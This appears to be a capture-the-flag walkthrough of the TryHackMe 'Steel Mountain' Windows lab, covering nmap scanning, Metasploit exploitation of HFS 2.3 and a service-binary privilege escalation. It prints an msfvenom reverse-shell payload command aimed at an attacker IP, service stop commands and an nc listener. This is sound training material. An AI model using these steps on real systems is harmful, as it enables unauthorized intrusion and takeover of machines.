 Steel Mountain is a THM machine 

![image](https://github.com/user-attachments/assets/c9a4dba0-4117-4d65-9e7f-3f8dd916f518)

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

nmap -sC -sV 10.10.224.110 -oA initial  

* -sC: run default nmap scripts
* -sV: detect service version
* -O: detect OS [not allowed to run on this machine- I got an error]
* -oA: output all formats and store in file initial

We get back the following result showing that below ports are open:

* Port 80: running Microsoft IIS httpd 8.5 HTTP method risky :Trace
* Port 135: msrpc
* Port 139: netbios-ssn
* Port 445:  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
* Port 3389: ssl/ms-wbt-server?
* Port 8080 : open  http               HttpFileServer httpd 2.3 http-server-header: HFS 2.3





![image](https://github.com/user-attachments/assets/66f63413-c1bd-4ba1-9f8d-703c42515757)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

nmap -sC -sV -O -p- -oA full $IP


We get back the following result. No other ports are open.



Similarly, we run an nmap scan with the -sU flag enabled to run a UDP scan.

nmap -sU -O -p- -oA udp $IP


**Enumeration**
I always start off with enumerating HTTP first. In this case both 80 and 8080 are open so we’ll start there.

Ports 80 & 8080

Visit the site on the browser.

![image](https://github.com/user-attachments/assets/12aec968-4a0e-4c18-8c4d-7302df33f566)


![image](https://github.com/user-attachments/assets/6de5a185-9e60-4c41-bc2a-eec9d4a12a2c)

View the source code to see if we can find any other information. We see that the photo on the port 80 is Employee of the month Bill Harper 

![image](https://github.com/user-attachments/assets/9b04f2a8-adab-4d60-bdee-0baaae09a824)

What is the CVE number to exploit this file server?

We know the name of the file version, and that it is running version 2.3. We can therefore use the searchsploit command (or look at exploitdb’s website). I entered the following command:

searchsploit HFS -w

This gave me the following results. Note I used the -w flag to get a link to exploit-db.

![image](https://github.com/user-attachments/assets/98505663-dd1b-4c86-a8b3-56c8941464a9)

Of you look carefully you can see that there are are at least two exploits for version 2.3.x. Let’s try the Remote Command Execution (1) at the following link:

https://www.exploit-db.com/exploits/34668?source=post_page-----90af67ec1af6--------------------------------

Use Metasploit to get an initial shell. What is the user flag?

Startup Metasploit by running msfconsole.

The great thing about Metasploit is that we can search on CVE number. Let’s do this by running:

search 2014–6287
![image](https://github.com/user-attachments/assets/13289ada-5d7e-4f73-a02d-614f25f0dd5b)

![image](https://github.com/user-attachments/assets/1fd2fdb3-c23a-4710-a8e3-a9b7360fdea3)

We can follow this by entering use 0. This select the module.

To see the different options we need to adjust we can run show options.

A lot of this is already set to defaults, so the only options we have to set are RHOSTS, which means the target host ip address, and RPORT. You can set it using set RHOSTS <ip>.

Now all we need to do is enter run or exploit.

We got access to a meterpreter shell:
![image](https://github.com/user-attachments/assets/ad190d50-b6cb-4ced-a24d-e751f2ef0f10)

![image](https://github.com/user-attachments/assets/69d78adf-85f1-4680-b4f2-f09b45d169cb)

Now we need to find the user flag.

We can use the following command to search for all txt files:

search -f *.txt

59 resulsts 
![image](https://github.com/user-attachments/assets/80efaab5-23a8-4251-ab09-b517dc7be423)

We are interested in this file 
![image](https://github.com/user-attachments/assets/15e66b61-c827-42da-bf2d-1b26118fb232)

Now all we need to do is read the file.

Remember too use forward slashes.

![image](https://github.com/user-attachments/assets/a1d99982-61a1-417e-816b-067d6b16d4fe)


**Privilege Escalation**

Now that you have an initial shell on this Windows machine as Bill (enter getuid in the meterpreter shell to see this), we can further enumerate the machine and escalate our privileges to root!

**Questions**
To enumerate this machine, we will use a PowerShell script called PowerUp, whose purpose is to evaluate a Windows machine and determine any abnormalities — “PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.” You can download the script here.

Now you can use the upload command in Metasploit to upload the script. To execute this using Meterpreter, I will type load powershell into Meterpreter. Then I will enter PowerShell by entering powershell_shell:

![image](https://github.com/user-attachments/assets/54f08ec1-58c4-4b47-9f21-e66635573c82)

After doing this you just have to run the PowerUp Powershell script by entering:

![image](https://github.com/user-attachments/assets/6b619afc-6d02-467b-89c3-c0fa9ee2e682)

This gives a long list of abnormalities:

![image](https://github.com/user-attachments/assets/4b9e40d4-2859-40b5-93f0-81f450b620ff)

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, and restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as a Windows executable.

 *msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe%* 

msfvenom -p windows/shell_reverse_tcp LHOST=10.17.38.50 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe


![image](https://github.com/user-attachments/assets/58a0d79a-3d4a-4623-b24c-e43e591b1ddb)
Now we generated a reverse shell with the name ASCService.exe.

We can now leave the Powershell shell, and use the same upload command as before:
![image](https://github.com/user-attachments/assets/cee7565b-04f9-4657-9d46-d6a9387990f7)

No we need to replace the legitimate one. Enter a regular cmd shell from your meterpreter shell by entering: shell.

Before copying, we need to stop the service by entering:
*sc stop AdvancedSystemCareService9*
![image](https://github.com/user-attachments/assets/c375ee3b-aa40-45c9-b048-5f4fd51f0bb5)


![image](https://github.com/user-attachments/assets/203402e6-5081-467d-baca-58d37840ffae)

![image](https://github.com/user-attachments/assets/a91cefa8-cedc-441e-af35-2c7ea84e3d82)



Then copy the file to the original location:
Now we need to start a listener!

*nc -lvnp 4443*

Then restart the program to get a shell as root.
![image](https://github.com/user-attachments/assets/43b6e119-ca74-4105-ba94-6d813157b494)


![image](https://github.com/user-attachments/assets/9ac96fe6-bec3-422d-9612-7ccefedb3931)

And we have system access!

